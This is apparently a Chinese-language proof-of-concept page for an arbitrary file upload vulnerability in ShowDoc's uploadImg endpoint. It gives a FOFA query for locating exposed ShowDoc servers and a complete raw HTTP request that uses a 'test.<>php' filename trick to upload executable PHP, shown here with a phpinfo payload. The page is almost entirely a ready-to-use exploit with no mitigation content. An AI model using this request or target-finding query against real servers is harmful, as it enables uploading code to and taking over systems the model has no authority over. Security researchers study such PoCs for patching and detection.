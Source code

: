 ## showDoc-uploadImg任意文件上传漏洞

showdoc是一个非常适合IT团队的在线API文档、技术文档工具，它可以提高团队成员之间的沟通效率， 使用此系统的用户众多，目前github star 10k+。showdoc使用php+sqlite，其历史版本接口 /index.php?s=/home/page/uploadImg 存在文件上传漏洞。

## fofa

```
app="ShowDoc"
```

## poc

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101
Firefox/88.0
Content-Length: 240
Content-Type: multipart/form-data; boundary=--------------------------7
Accept-Encoding: gzip
----------------------------7
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------7--
```

![image-20240531130717905](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405311307017.png)